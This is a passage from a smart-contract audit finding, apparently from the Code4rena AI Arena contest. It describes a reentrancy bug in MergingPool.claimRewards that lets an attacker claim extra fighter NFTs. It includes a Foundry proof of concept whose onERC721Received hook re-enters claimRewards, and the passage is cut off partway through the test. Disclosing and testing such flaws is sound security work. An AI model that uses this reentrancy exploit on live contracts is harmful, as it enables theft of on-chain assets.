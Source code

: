 **Original Context:**
1. The original context is currently at `currentRound` = 2.
2. We continue looping from rounds 2 to 5.
3. Since attacker is a winner in round 5, the nested for loop iterates over the length of `winnerAddresses` array for that round. The winnerAddresses are retrieved based on currentRound memory variable as seen [here](https://github.com/code-423n4/2024-02-ai-arena/blob/cd1a0e6d1b40168657d1aaee8223dc050e15f8cc/src/MergingPool.sol#L153).
4. Once the addresses match, we enter the if block that proceeds to mint the third FighterNFT by calling [mintFromMergingPool()](https://github.com/code-423n4/2024-02-ai-arena/blob/cd1a0e6d1b40168657d1aaee8223dc050e15f8cc/src/FighterFarm.sol#L313) on the FighterFarm contract.
5. The execution path from here onwards is: [mintFromMergingPool()](https://github.com/code-423n4/2024-02-ai-arena/blob/cd1a0e6d1b40168657d1aaee8223dc050e15f8cc/src/FighterFarm.sol#L313) => [_createNewFighter()](https://github.com/code-423n4/2024-02-ai-arena/blob/cd1a0e6d1b40168657d1aaee8223dc050e15f8cc/src/FighterFarm.sol#L484) => [_safeMint()](https://github.com/code-423n4/2024-02-ai-arena/blob/cd1a0e6d1b40168657d1aaee8223dc050e15f8cc/src/FighterFarm.sol#L529) => _checkOnERC721Received() => onERC721Received().
6. The original context ends.

Through this, we can see how an attacker can mint more than what he was allowed to claim.

### Coded POC

How to use this POC:
- Add the following code to the MergingPool.t.sol file in the `test` folder
- Run `forge test --match-test testReentrancyIssue -vv`
- Remove the onERC721Received() function already present at the bottom of the file.

```solidity
File: MergingPool.t.sol
273:     bool maliciousCall;
274:
275:     function onERC721Received(address, address, uint256, bytes memory) public returns (bytes4) {
276:         // Handle the token transfer here
277:         if(maliciousCall) {
278:             maliciousCall = false;
279:             string[] memory _modelURIs = new string[](2);
280:             _modelURIs[0] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";
281:             _modelURIs[1] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";
282:             string[] memory _modelTypes = new string[](2);
283:             _modelTypes[0] = "original";
284:             _modelTypes[1] = "original";
285:             uint256[2][] memory _customAttributes = new uint256[2][](2);
286:             _customAttributes[0][1] = uint256(70);
287:             _customAttributes[0][0] = uint256(2);
288:             _mergingPoolContract.claimRewards(_modelURIs, _modelTypes, _customAttributes);
289:             return this.onERC721Received.selector;
290:         }
291:         else {
292:             return this.onERC721Received.selector;
293:         }
294:     }
295:
296:     function testReentrancyIssue() public {
297:         //Mint a token to the attacker contract account (this address) initially to allow him to be picked as a winner
298:         vm.prank(address(_mergingPoolContract));
299:         _fighterFarmContract.mintFromMergingPool(address(this), "_neuralNetHash", "original", [uint256(1), uint256(80)]);
300:         console.log("Attacker's balance before calling claimRewards():", _fighterFarmContract.balanceOf(address(this)));
301:
302:         uint256[] memory emptyArray;
```